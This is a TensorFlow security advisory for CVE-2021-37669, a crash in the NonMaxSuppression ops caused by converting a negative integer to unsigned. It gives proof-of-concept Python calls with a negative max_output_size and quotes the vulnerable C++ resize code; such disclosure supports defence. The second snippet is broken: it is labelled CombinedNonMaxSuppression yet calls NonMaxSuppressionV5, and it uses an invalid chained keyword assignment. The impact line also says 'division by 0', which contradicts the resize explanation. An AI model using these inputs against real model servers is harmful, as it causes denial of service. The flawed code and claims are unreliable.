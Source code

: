 ## TFSA-2021-143: Crash in NMS ops caused by integer conversion to unsigned

### CVE Number
CVE-2021-37669

### Impact
An attacker can cause denial of service in applications serving models using
`tf.raw_ops.NonMaxSuppressionV5` by triggering a division by 0:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],
  scores=[1.0,2.0,3.0],
  max_output_size=-1,
  iou_threshold=0.5,
  score_threshold=0.5,
  soft_nms_sigma=1.0,
  pad_to_max_output_size=True)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/image/non_max_suppression_op.cc#L170-L271)
uses a user controlled argument to resize a `std::vector`:

```cc
  const int output_size = max_output_size.scalar<int>()();
  // ...
  std::vector<int> selected;
  // ...
  if (pad_to_max_output_size) {
    selected.resize(output_size, 0);
    // ...
  }
```

However, as `std::vector::resize` takes the size argument as a `size_t` and
`output_size` is an `int`, there is an implicit conversion to usigned. If the
attacker supplies a negative value, this conversion results in a crash.

A similar issue occurs in `CombinedNonMaxSuppression`:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]]]],
  scores=[[[1.0,2.0,3.0],[1.0,2.0,3.0],[1.0,2.0,3.0]]],
  max_output_size_per_class=-1,
  max_total_size=10,
  iou_threshold=score_threshold=0.5,
  pad_per_class=True,
  clip_boxes=True)
```

### Patches
We have patched the issue in GitHub commit
[3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d](https://github.com/galeone/tensorflow/commit/3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d)
and commit
[b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58](https://github.com/galeone/tensorflow/commit/b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
